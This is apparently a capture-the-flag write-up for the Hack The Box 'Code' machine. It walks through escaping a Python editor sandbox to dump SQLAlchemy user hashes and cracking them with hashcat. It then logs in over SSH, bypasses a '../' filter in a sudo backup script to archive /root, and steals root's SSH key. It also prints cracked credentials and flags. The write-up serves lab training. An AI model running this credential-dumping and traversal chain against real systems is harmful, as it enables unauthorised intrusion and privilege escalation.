



Code is an easy HTB machine where you have to escape a `Python sandbox` via retrieving credentials through a `SQLAlchemy` database. From there we gain access to the machine, once inside we find a poorly secured binary that can be run as `sudo`, gaining root access.

# Reconnaissance
```bash
[t3mpx@parrot]─[~/htb/easy/code]
└──★$ nmap -np- -Pn -sVC --min-rate 5000 -oN nmap-scan.txt 10.10.11.62
Nmap scan report for 10.10.11.62
Host is up (0.039s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  2 22:25:10 2025 -- 1 IP address (1 host up) scanned in 19.07 seconds
```
> SSH, HTTP

Let's have a look at [10.10.11.62:5000](10.10.11.62:5000):

> A really restrictive python sandbox

# Exploit
## SQLAlchemy
Listing the global variables available with `print(globals())` reveals that `SQLAlchemy` is running:



```python
<SQLAlchemy sqlite:////home/app-production/app/instance/database.db>, 'User': <class 'app.User'>, 'Code': <class 'app.Code'>
```

> We have now two ORM classes: `User` and `Code`

Let's enumerate further, this [page](https://develie.hashnode.dev/exploring-flask-sqlalchemy-queries) helped a lot:
```python
> print(User.query.all())


[<User 1>, <User 2>] 
```

```python
print(User.query.options())

SELECT user.id AS user_id, user.username AS user_username, user.password AS user_password FROM user
```

```python
print(User.query.with_entities(User.username).all())
print(User.query.with_entities(User.password).all())

[('development',), ('martin',)] 
[('759b74ce43947f5f4c91aeddc3e5bad3',), ('3de6f30c4a09c27fc71932bfc68474be',)] 
```
> We have two possible users and two MD5 hashes

### hashcat

Let's crack them with hashcat:
```bash
[t3mpx@parrot]─[~/htb/easy/code]
└──★$ hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --show
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
759b74ce43947f5f4c91aeddc3e5bad3:development
```
> martin:nafeelswordsmaster

# Lateral Movement
## Shell as martin

```bash
[t3mpx@parrot]─[~/htb/easy/code]
└──★$ ssh martin@10.10.11.62                                                                                 
martin@10.10.11.62's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com                     
 * Management:     https://landscape.canonical.com                
 * Support:        https://ubuntu.com/pro

 <SNIP>

 Last login: Sat May 3 15:01:50 2025 from 10.10.14.4
```

## Shell as root

After doing a basic privilege escalation enumeration we come accross the following:

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```
> We can run backy.sh as root

### backy.sh

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then               
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1                                                                                                                                                  
fi            
                                       
json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1                 
fi                                                                            
                                                                                                                                                            
allowed_paths=("/var/" "/home/")
                                       
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

>It asks for a `task.json` file, which we find in the `/backups` folder of martin

We can modify the file to the following, adding a bypass to the `gsub` filter to still include the allowed paths, and removing the exclude part:
```bash
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/....//....//root/"
        ]
}
```
Run the script as sudo:
```bash
martin@code:~/backups$ sudo backy.sh task.json                                
2025/05/03 15:16:30 🍀 backy 1.2                                              
2025/05/03 15:16:30 📋 Working with task.json ...                             
2025/05/03 15:16:30 💤 Nothing to sync                                        
2025/05/03 15:16:30 📤 Archiving: [/home/../../root]                                                                                                        
2025/05/03 15:16:30 📥 To: /home/martin/backups ...                                                                                                         
2025/05/03 15:16:30 📦
```


Extract the contents:
```bash
martin@code:~/backups$ tar -xvjf code_home_.._.._root_2025_May.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
```

SSH as sudo:
```bash
[t3mpx@parrot]─[~/htb/easy/code]
└──★$ ssh -i id_rsa root@10.10.11.62
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)
                                                                              
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 <SNIP>

Last login: Sat May 3 15:18:24 2025 from 10.10.14.4
root@code:~#
```

### User flag
```bash
root@code:~# cat /home/app-production/user.txt 
91026d1886b1bcea0b5138ef36d3da78
```

### Root flag
```bash
root@code:~# cat root.txt 
70b8d04b131e0b0f7fa3c52d2acc9b56
```
